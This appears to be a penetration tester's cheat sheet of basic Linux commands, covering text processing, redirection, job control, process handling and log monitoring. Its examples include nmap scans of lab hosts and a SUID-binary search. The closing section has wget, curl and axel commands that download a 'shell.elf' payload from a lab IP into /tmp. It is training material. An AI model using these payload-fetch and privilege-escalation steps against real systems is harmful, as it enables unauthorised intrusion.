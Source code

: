 # Basic Commands

## Common

### apropos

Search the list of man page descriptions for a possible match based on a keyword.

``` bash
apropos website
get-iab (1)          - Fetch the arp-scan IAB file from the IEEE website
get-oui (1)          - Fetch the arp-scan OUI file from the IEEE website (on Debian and Debian based systems, data is fetched from ieee-data package)
whatweb (1)          - Next generation Web scanner. Identify technologies used by websites.
```

### mkdir

``` bash
mkdir module one

mkdir "module one"

mkdir -p module/{one,two,three}
```

### Piping

``` bash
sudo ss -antlp | grep sshd
```

### sed

``` bash
echo 'Hades' | sed 's/Hades/leecybersec.com/'
```

### cut

``` bash
echo "hacking, penetration testing and bug hunting"| cut -f 2 -d " "

penetration
```
``` bash
cut -d ":" -f 1 /etc/passwd
root
daemon
bin
```

### awk

``` bash
cat /etc/passwd | awk -F ":" '{print $1, ":", $7}' | grep "sh"
```

### uniq -c

``` bash
cat list.txt | sort | uniq -c | sort -r
```

### grep

``` bash
ifconfig | grep eth0 -C 1 | grep inet | cut -f10 -d' '
```

### Redirect

to a New File

``` bash
ls > list.txt
```

``` bash
cat list.txt
Desktop
Documents
list.txt
```

to an Existing File

``` bash
echo "Add new" >> list.txt
```

from a File

``` bash
wc -m < list.txt
```

STDERR

``` bash
find / -perm -u=s -type f 2>/dev/null
```

## Processes

### Background a process 

``` bash
┌──(Hades㉿192.168.11.130)-[0.8:10.9]~
└─$ nmap -p- 127.0.0.1 &           
[1] 1239
                                                                                                                                                                            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 20:49 EST
```

### Suspend the job

``` bash
┌──(Hades㉿192.168.11.130)-[0.7:11.1]~
└─$ nmap -p- 192.168.11.131 -Pn

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 20:52 EST
^Z
zsh: suspended  nmap -p- 192.168.11.131 -Pn
┌──(Hades㉿192.168.11.130)-[0.7:11.4]~
└─$ bg

[1]  + continued  nmap -p- 192.168.11.131 -Pn
```

### jobs and fg

``` bash
┌──(Hades㉿192.168.11.130)-[0.7:11.1]~
└─$ jobs

[1]  + running    nmap -p- 192.168.11.131 -Pn
                                                                                                                                                                            
┌──(Hades㉿192.168.11.130)-[0.8:11.4]~
└─$ fg

[1]  + running    nmap -p- 192.168.11.131 -Pn
^C
```

### ps and kill

``` bash
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 20:39 ?        00:00:02 /sbin/init splash
root           2       0  0 20:39 ?        00:00:00 [kthreadd]
<snip>
kali        1448    1202  0 20:56 pts/0    00:00:01 nmap -p- 192.168.11.131 -Pn
kali        1466    1202  0 20:56 pts/0    00:00:00 nmap -p- 192.168.11.132 -Pn
kali        1484    1202  0 20:57 pts/0    00:00:00 nmap -p- 192.168.11.133 -Pn
kali        1673    1202  0 20:59 pts/0    00:00:00 ps -ef
```

``` bash
ps -fC nmap
UID          PID    PPID  C STIME TTY          TIME CMD
kali        1448    1202  0 20:56 pts/0    00:00:01 nmap -p- 192.168.11.131 -Pn
kali        1466    1202  0 20:56 pts/0    00:00:00 nmap -p- 192.168.11.132 -Pn
kali        1484    1202  0 20:57 pts/0    00:00:00 nmap -p- 192.168.11.133 -Pn
```

``` bash
kill 1466                                                                                                                                                           2 ⚙
                                                                                                                                                                            
[2]  + terminated  nmap -p- 192.168.11.132 -Pn
```

## Monitoring

### tail

``` bash
udo tail -f /var/log/apache2/access.log
192.168.11.130 - - [09/Mar/2021:21:12:03 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
192.168.11.130 - - [09/Mar/2021:21:12:05 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
...
```

### watch

``` bash
watch -n 1 date
```

## Downloading

### wget

``` bash
wget -O /tmp/shell http://192.168.110.131/shell.elf
```

### curl

``` bash
curl -o /tmp/shell http://192.168.110.131/shell.elf
```

### axel

``` bash
axel -a -n 20 -o /tmp/shell http://192.168.110.131/shell.elf
```